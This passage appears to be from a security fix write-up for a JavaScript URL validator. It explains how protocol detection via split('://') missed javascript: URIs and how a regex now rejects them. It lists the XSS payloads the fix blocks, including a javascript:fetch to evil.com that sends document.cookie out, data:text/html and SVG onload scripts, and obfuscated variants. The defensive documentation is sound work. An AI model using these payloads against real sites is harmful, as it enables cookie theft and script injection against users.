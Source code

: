 1. **Email addresses in URL format:**
   ```javascript
   // Before: validator.isURL('mailto:test@example.com')
   // After:  validator.isEmail('test@example.com')
   ```

2. **Phone numbers in URL format:**
   ```javascript
   // Before: validator.isURL('tel:+1234567890')
   // After:  Write custom validator or use tel-specific library
   ```

3. **Data URIs:**
   ```javascript
   // Before: validator.isURL('data:text/html,...')
   // After:  validator.isDataURI('data:text/html,...')
   ```

---

## Why This Works

### The Problem
```
URL:     javascript:alert(1)
Browser: "javascript" is the protocol ← DANGER!
Old Code: split('://') → No protocol detected ← MISS!
```

### The Fix
```
URL:     javascript:alert(1)
Browser: "javascript" is the protocol
New Code: match(/^([a-z...]*):/) → "javascript" detected
          remainder = "alert(1)" (no '//')
          → Non-authority URI → REJECT ← CAUGHT!
```

---

## Attack Examples Blocked

### XSS Payloads
```javascript
javascript:alert(document.cookie)
javascript:fetch('https://evil.com?c='+document.cookie)
data:text/html,<script>alert(1)</script>
data:image/svg+xml,<svg onload=alert(1)>
vbscript:msgbox("XSS")
```

### Obfuscated Attacks
```javascript
javascript:alert(String.fromCharCode(88,83,83))
data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==
JavaScript:alert(1)  // case variation
JAVASCRIPT:alert(1)
```

---